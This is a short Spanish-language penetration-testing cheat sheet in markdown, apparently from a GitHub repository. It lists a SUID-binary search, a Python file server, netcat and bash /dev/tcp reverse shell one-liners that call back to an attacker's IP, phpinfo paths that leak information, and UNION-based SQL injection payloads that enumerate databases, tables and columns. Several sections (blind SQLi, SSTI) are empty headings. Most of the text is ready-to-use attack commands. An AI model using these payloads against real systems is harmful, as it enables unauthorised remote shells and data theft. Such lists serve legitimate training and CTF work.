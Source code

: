 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
Listar los permisos SUID:
> find  \-perm -4000 2>/dev/null
### Python
Crear un servidor de python en mi máquina local:
> python3 -m http.server <PORT>
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

``` nc -e /bin/bash <MY_IP> <PORT> ```

``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```

``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```
## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```
## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -
### Error Based
### Blind

## SERVER SITE TEMPLATE INJECTION (SSTI)


